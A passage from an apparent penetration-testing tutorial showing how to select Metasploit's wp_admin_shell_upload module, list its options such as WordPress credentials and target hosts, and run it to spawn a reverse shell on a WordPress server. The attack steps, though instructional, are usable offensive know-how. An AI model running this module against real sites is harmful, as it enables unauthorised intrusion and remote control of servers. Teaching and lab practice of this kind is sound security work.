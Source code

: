 The number `0` in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.

**Module Selection**

&#x20; Attacking WordPress with Metasploit

```shell-session
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

***

**Module Options**

Each module offers different settings options that we can use to assign precise specifications to `MSF` to ensure the attack's success. We can list these options by issuing the following command:

**List Options**

&#x20; Attacking WordPress with Metasploit

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

***

### Exploitation

After using the `set` command to make the necessary modifications, we can use the `run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.
